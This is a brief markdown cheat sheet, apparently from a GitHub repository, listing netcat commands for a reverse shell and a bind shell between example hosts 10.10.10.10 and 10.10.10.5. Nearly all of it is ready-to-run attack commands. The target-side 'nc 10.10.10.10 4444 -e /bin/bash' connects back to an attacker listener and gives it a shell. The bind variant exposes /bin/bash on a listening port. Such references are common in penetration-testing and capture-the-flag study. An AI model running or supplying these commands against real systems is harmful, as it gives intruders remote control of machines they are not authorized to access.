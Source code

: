
## Netcat Reverse Shell
- localhost: 10.10.10.10
  - `nc -nvlp 4444`
- target: 10.10.10.5
  - `nc 10.10.10.10 4444 -e /bin/bash`

## Netcat Bind Shell
- localhost: 10.10.10.10
  - nc 10.10.10.5 4444
- target: 10.10.10.5
  - nc -nvlp 4444 -e /bin/bash
